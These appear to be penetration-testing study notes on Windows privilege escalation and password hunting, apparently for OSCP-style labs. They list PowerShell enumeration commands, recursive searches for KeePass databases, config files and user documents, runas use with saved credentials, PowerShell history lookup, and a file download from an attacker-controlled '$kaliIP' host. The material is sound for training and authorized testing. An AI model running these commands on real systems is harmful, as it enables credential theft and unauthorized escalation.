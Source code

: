 ##### TCM Password Hunting
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

#### Powershell
- `Get-LocalUser` - get list of all local users
- `Get-LocalUser steve` - same as net user steve
- `Get-LocalGroup` - all local groups
- `Get-LocalGroupMember $groupName` - list of users in that group
- `systeminfo` - OS, version, architecture, etc
- `ipconfig /all` - list all network interfaces
- `route print` - display routing table containing all routes of the system
- `netstat -ano` - list all active network connections
	- a = all active TCP connections as well as TCP and UDP ports
	- n = disable name resolution
	- o = show process ID for each connection
- `Get-Process` - show running processes
- `Get-Process $processName | Format-List *` - get all information about a process

Finding info about applications:
- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\" | select displayname`- Displays 32 bit applications (remove 'select displayname' for more info)
- `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` - Displays 64 bit applications (remove 'select displayname' for more info):


Searching for specific things:
- Command for finding ".kdbx" (KeePass) files:
	- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` (for Keepass db)
- Command for finding sensitive XAMPP info files:	
	- `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- Checking for files in home directory
	- `Get-ChildItem -Path C:\Users\$user\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`

Runas:
	- `runas user:$user cmd` 
		- will have to enter password after, but it gets a shell as that user
	- `C:\Windows\System32\runas.exe /user:$DOMAIN\$User /save cred "C:\Windows\System32\cmd.exe /c $Command`
	- `C:\Windows\System32\runas.exe /user:$DOMAIN\$User /save cred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\proof.txt > $outputlocation.txt`
- `Get-History` - may not work
- `(Get-PSReadlineOption).HistorySavePath`
	- Then `cat` or `type` output file and check that output for interesting files
Download file from remote server
	- `iwr -uri http://$kaliIP/file.ext -outfile file.ext`

#### Checking privileges on service binaries
https://github.com/gtworek/Priv2Admin - which privileges can do what
  - `icacls` Windows utility or  
  - `Get-ACL` -  PowerShell Cmdlet
